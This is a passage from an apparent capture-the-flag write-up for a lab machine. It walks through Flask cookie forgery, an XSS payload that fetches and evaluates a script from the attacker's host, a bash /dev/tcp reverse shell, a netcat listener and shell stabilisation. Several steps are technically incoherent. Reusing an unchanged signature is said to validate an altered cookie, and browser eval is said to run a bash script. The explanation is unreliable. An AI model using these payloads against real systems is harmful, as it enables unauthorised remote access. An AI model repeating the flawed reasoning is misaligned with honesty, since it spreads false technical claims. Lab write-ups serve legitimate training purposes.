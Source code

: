 ```bash
echo "InVzZXIi" | base64 -d
user
```

The cookie format (`InVzZXIi.<signature>`) suggested a Flask signed cookie. Testing with a modified cookie to impersonate an admin:

```bash
echo -n "admin" | base64
YWRtaW4=
```

Crafted a new cookie: `YWRtaW4=.<original_signature>` and tested:

```bash
curl -H "Cookie: is_admin=YWRtaW4=.uAlmXlTvm8vyihjNaPDWnvB_Zfs" http://headless.htb:5000/dashboard
```

This returned a 200 OK response, granting access to the `/dashboard` admin interface. The weak signature validation (likely a predictable or default `SECRET_KEY`) allowed bypassing authentication.

### Reverse Shell via XSS

To escalate to remote code execution (RCE), the XSS vulnerability was leveraged to execute a malicious script. A bash reverse shell script was hosted on the attacker’s machine:

```bash
cat shell.sh
#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.16.32/4444 0>&1'
```

- Hosted the script: `python3 -m http.server 80`
- Submitted an XSS payload to fetch and execute the script:

```html
<script>fetch('http://10.10.16.32/shell.sh').then(r=>r.text()).then(c=>eval(c));</script>
```

- Set up a Netcat listener: `nc -nlvp 4444`
- Visited `/dashboard` as admin, triggering the payload and receiving a reverse shell as `www-data`.

The shell was stabilized:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Local Enumeration & User Flag

As `www-data`, the Flask application directory was explored:

```bash
ls /var/www/html
app.py  static/  templates/  database.db
```

